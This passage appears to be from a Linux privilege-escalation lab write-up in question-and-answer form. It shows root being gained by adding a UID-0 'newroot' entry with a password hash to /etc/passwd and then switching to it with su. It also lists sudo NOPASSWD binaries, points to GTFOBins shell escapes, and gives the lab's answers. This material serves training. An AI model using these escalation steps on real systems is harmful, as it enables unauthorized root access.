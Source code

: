     ```bash
    user@debian:~$ cat /etc/passwd
    root:CLKSOkgdxXRsg:0:0:root:/root:/bin/bash
    newroot:CLKSOkgdxXRsg:0:0:root:/root:/bin/bash
    ```

- Now switch to the newroot user, using the new password:

    ```bash
    user@debian:~$ su newroot
    Password: 
    root@debian:/home/user# 
    ```

#### Run the "id" command as the newroot user. What is the result?

```bash
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

## Sudo - Shell Escape Sequences
List the programs which sudo allows your user to run:

```bash
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

Visit [GTFOBins](https://gtfobins.github.io) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.

#### How many programs is "user" allowed to run via sudo? 
> 11, as we run `sudo -l` before.

#### One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?
> `/usr/sbin/apache2`
